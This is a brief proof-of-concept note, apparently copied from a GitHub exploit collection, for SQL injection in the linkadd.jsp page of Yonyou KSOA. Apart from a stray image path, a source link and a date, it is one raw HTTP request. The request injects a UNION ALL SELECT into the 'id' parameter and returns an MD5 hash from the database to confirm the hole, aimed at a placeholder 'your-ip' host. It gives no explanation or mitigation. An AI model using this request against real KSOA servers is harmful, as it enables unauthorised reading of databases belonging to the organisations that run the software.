# ksoa_linkadd.jsp_sqli

from: https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8B%E6%97%B6%E7%A9%BAKSOA-linkadd.jsp%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

2024.5.13 @2

```
GET /linksframe/linkadd.jsp?id=666666%27+union+all+select+null%2Cnull%2Csys.fn_sqlvarbasetostr%28HashBytes%28%27MD5%27%2C%27123456%27%29%29%2Cnull%2Cnull%2C%27 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```
